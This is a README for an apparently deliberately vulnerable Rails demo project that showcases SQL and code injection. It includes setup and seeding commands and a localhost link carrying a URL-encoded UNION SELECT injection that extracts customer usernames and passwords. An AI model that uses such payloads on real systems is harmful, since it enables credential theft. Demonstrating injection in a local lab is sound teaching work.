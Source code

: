 # README

Just a dumb test project and a super simplistic proof of concept for SQL and code injection. 

```bash
bundle install
rails db:setup
```

Then create some stuff in the db so you can play around with it
```ruby
FactoryBot.create_list :product, 20
FactoryBot.create_list, :customer, 10
```

[http://localhost:3007/products](http://localhost:3007/products)

[Example of unsafe query](http://localhost:3007/products?query=%27%29+UNION+select+customers.id%2C++customers.first_name+AS+name%2C+customers.username+AS+cost%2C+customers.password+AS+description%2C+customers.created_at%2C+customers.updated_at+FROM+customers+--&commit=Search)


